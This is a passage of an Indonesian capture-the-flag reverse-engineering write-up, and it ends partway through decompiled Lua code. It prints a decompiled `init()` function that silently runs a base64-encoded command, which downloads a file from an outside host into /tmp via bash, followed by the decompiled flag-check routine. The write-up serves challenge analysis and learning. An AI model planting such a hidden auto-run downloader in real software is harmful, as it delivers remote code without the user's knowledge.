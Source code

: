 <details></details>

### Langkah Penyelesaian

- Disclaimer dulu, saya gak jago Reverse ya ges, iseng-iseng aja ini.
- Setelah saya coba decompile menggunakan Ghidra, ada something interesting di fungsi `init()`, di mana mengeksekusi command seperti berikut.

```c=
int init(EVP_PKEY_CTX *ctx)

{
  int iVar1;
  char local_408 [1024];
  
  sprintf(local_408,
          "echo d2dldCAtcSAtTyAvdG1wL3V3dSBodHRwczovL2FpbWFyLmlkL2ZsYWcubHVhYw== | base64 -d | bash"
         );
  iVar1 = system(local_408);
  return iVar1;
}
```

- Ketika saya coba execute command tersebut di local machine, ada file `uwu` di direktori `/tmp`. Saya coba cek file apakah itu, ternyata merupakan file bytecode dalam bahasa Lua.
- Langsung saja saya decompile bytecode itu dan ini hasilnya.

```lua=
    -- filename: 
    -- version: lua52
    -- line: [0, 0] id: 0
    check_flag = function(r0_1)
    -- line: [1, 45] id: 1
    local r1_1 = {
        0,
        1,
        1,
        1,
        0,
       ... omitted ...,
        0,
        1,
        1,
        1,
        1,
        1,
        0,
        1
    }
    local r2_1 = ""
    for r6_1 = 1, #r0_1, 1 do
        local r8_1 = string.byte(r0_1:sub(r6_1, r6_1))
        for r12_1 = 7, 0, -1 do
        if 2 ^ r12_1 <= r8_1 then
            r2_1 = r2_1 .. "1"
            r8_1 = r8_1 - 2 ^ r12_1
        else
            r2_1 = r2_1 .. "0"
        end
        end
    end
    if #r2_1 ~= #r1_1 then
        return false
    end
    local r3_1 = 0
```